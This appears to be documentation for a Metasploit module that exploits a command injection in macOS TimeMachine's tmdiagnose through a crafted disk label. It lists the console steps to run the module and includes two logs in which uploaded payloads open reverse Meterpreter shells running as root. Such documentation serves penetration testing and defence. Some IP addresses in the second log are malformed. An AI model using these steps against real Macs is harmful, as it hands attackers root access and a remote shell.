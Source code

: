 ## Vulnerable Application

This module exploits a command injection in TimeMachine on macOS <= 10.14.3 in order to run a payload as root. The tmdiagnose binary on OSX <= 10.14.3 suffers from a command injection vulnerability that can be exploited by creating a specially crafted disk label.

The tmdiagnose binary uses awk to list every mounted volume, and composes shell commands based on the volume labels. By creating a volume label with the backtick character, we can have our own binary executed with root priviledges.

## Verification Steps

1. Get a session on a vulnerable system
2. `use exploit/osx/local/timemachine_cmd_injection`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios

### Mac OSX 10.14.3 (Mojave)

```

msf5 exploit(multi/handler) > use exploit/osx/local/timemachine_cmd_injection
msf5 exploit(osx/local/timemachine_cmd_injection) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.2:5555
[*] Uploading file: '/tmp/qhjlknnmf'
[*] Executing exploit '/tmp/qhjlknnmf'
[*] Exploit result:
2019-04-18 16:18:29.190 qhjlknnmf[51122:107119] creating dmg image
2019-04-18 16:18:33.300 qhjlknnmf[51122:107119] mounting malformed disk
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] sending XPC msg
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (808504 bytes) to 192.168.0.2
[*] Meterpreter session 2 opened (192.168.0.2:5555 -> 192.168.0.2:34270) at 2019-04-18 16:20:02 +0800

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

### MacOS 10.13.3 (High Sierra)

```
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.86.1.31:4444
[*] Uploading file: '/tmp/.xbdtqiynvb'
[*] Executing exploit '/tmp/.xbdtqiynvb'
[*] Exploit result:
2019-06-29 12:26:29.052 .xbdtqiynvb[553:3447] creating dmg image
2019-06-29 12:26:33.193 .xbdtqiynvb[553:3447] mounting malformed disk
2019-06-29 12:26:33.533 .xbdtqiynvb[553:3447] sending XPC msg
2019-06-29 12:26:33.534 .xbdtqiynvb[553:3447] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (813560 bytes) to 192.168.86.1.32
[*] Meterpreter session 3 opened (192.168.86.1.31:4444 -> 192.168.86.1.32:55888) at 2019-06-29 05:27:24 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
